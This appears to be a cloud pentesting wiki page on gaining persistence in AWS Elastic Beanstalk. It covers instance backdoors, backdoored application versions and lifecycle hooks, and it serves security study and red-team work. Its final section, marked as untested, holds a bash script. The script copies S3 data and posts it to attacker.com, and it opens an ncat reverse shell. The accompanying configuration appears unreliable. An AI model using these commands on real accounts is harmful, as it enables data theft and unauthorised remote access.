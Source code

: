 # AWS - Elastic Beanstalk Persistence

## Elastic Beanstalk

For more information check:

[[../../aws-services/aws-elastic-beanstalk-enum.md]]

### Persistence in Instance

In order to maintain persistence inside the AWS account, some **persistence mechanism could be introduced inside the instance** (cron job, ssh key...) so the attacker will be able to access it and steal IAM role **credentials from the metadata service**.

### Backdoor in Version

An attacker could backdoor the code inside the S3 repo so it always execute its backdoor and the expected code.

### New backdoored version

Instead of changing the code on the actual version, the attacker could deploy a new backdoored version of the application.

### Abusing Custom Resource Lifecycle Hooks

> [!NOTE]
> TODO: Test

Elastic Beanstalk provides lifecycle hooks that allow you to run custom scripts during instance provisioning and termination. An attacker could **configure a lifecycle hook to periodically execute a script that exfiltrates data or maintains access to the AWS account**.

```bash
# Attacker creates a script that exfiltrates data and maintains access
echo '#!/bin/bash
aws s3 cp s3://sensitive-data-bucket/data.csv /tmp/data.csv
gzip /tmp/data.csv
curl -X POST --data-binary "@/tmp/data.csv.gz" https://attacker.com/exfil
ncat -e /bin/bash --ssl attacker-ip 12345' > stealthy_lifecycle_hook.sh

# Attacker uploads the script to an S3 bucket
aws s3 cp stealthy_lifecycle_hook.sh s3://attacker-bucket/stealthy_lifecycle_hook.sh

# Attacker modifies the Elastic Beanstalk environment configuration to include the custom lifecycle hook
echo 'Resources:
  AWSEBAutoScalingGroup:
    Metadata:
      AWS::ElasticBeanstalk::Ext:
        TriggerConfiguration:
          triggers:
            - name: stealthy-lifecycle-hook
              events:
                - "autoscaling:EC2_INSTANCE_LAUNCH"
                - "autoscaling:EC2_INSTANCE_TERMINATE"
              target:
                ref: "AWS::ElasticBeanstalk::Environment"
              arn:
                Fn::GetAtt:
                  - "AWS::ElasticBeanstalk::Environment"
                  - "Arn"
  stealthyLifecycleHook:
    Type: AWS::AutoScaling::LifecycleHook
    Properties:
      AutoScalingGroupName:
        Ref: AWSEBAutoScalingGroup
      LifecycleTransition: autoscaling:EC2_INSTANCE_LAUNCHING
      NotificationTargetARN:
        Ref: stealthy-lifecycle-hook
      RoleARN:
        Fn::GetAtt:
          - AWSEBAutoScalingGroup
          - Arn' > stealthy_lifecycle_hook.yaml

# Attacker applies the new environment configuration
aws elasticbeanstalk update-environment --environment-name my-env --option-settings Namespace="aws:elasticbeanstalk:customoption",OptionName="CustomConfigurationTemplate",Value="stealthy_lifecycle_hook.yaml"
```

